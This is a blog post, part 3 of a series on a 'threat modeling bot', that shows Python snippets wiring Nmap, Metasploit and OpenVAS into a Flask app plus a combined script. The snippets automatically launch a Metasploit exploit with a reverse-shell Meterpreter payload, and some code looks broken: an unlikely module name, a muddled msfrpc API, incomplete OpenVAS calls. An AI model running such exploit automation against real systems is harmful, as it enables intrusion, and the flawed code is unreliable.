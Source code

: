 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: false
searchHidden: false
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

# ThreatSentry - An advanced threat modeling bot (part 3)

## 3. Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:
{{< highlight go "linenos=table,hl_lines=8 15-17,linenostart=199" >}}

import nmap
from msfrpc import MsfRpcClient
from gvm.connections import TLSConnection
from gvm.protocols.gmp import Gmp
from gvm.transforms import EtreeTransform

# Perform network scan using Nmap
def perform_network_scan(target_ip):
    scanner = nmap.PortScanner()
    scanner.scan(target_ip, arguments='-p-')  # Scan all ports

    open_ports = []
    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            for port in scanner[host][proto]:
                if scanner[host][proto][port]['state'] == 'open':
                    open_ports.append(port)

    return open_ports

# Exploit target using Metasploit Framework
def exploit_target(target_ip, target_port):
    client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
    exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

    exploit_module['RHOSTS'] = target_ip
    exploit_module['RPORT'] = target_port

    session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

    return session

# Initiate vulnerability scan using OpenVAS
def initiate_vulnerability_scan(target_ip):
    connection = TLSConnection(hostname='openvas_server', port=9390)
    transform = EtreeTransform()

    with Gmp(connection, transform=transform) as gmp:
        gmp.authenticate('username', 'password')
        scan_id = gmp.create_task(target=target_ip)

        # Start the scan
        gmp.start_task(scan_id)

        return scan_id

# Execute the scan, detect, and vulnerability check
def execute_network_security_check(target_ip):
    # Network scan using Nmap
    open_ports = perform_network_scan(target_ip)

    # Exploit target using Metasploit Framework
    session = exploit_target(target_ip, 80)  # Adjust the target port as needed

    # Initiate vulnerability scan using OpenVAS
    scan_id = initiate_vulnerability_scan(target_ip)

    # Save the outputs to separate TXT files
    with open('network_scan_output.txt', 'w') as f:
        f.write('Open Ports:\n')
        for port in open_ports:
            f.write(f'{port}\n')

    with open('exploit_output.txt', 'w') as f:
        f.write('Exploit Session:\n')
        f.write(f'{session}\n')

    with open('vulnerability_scan_output.txt', 'w') as f:
        f.write('Scan ID:\n')
        f.write(f'{scan_id}\n')

    print('Network security check completed. Results saved to TXT files.')

# Execute the script with your localhost IP as the target
execute_network_security_check('localhost')
{{< / highlight >}}
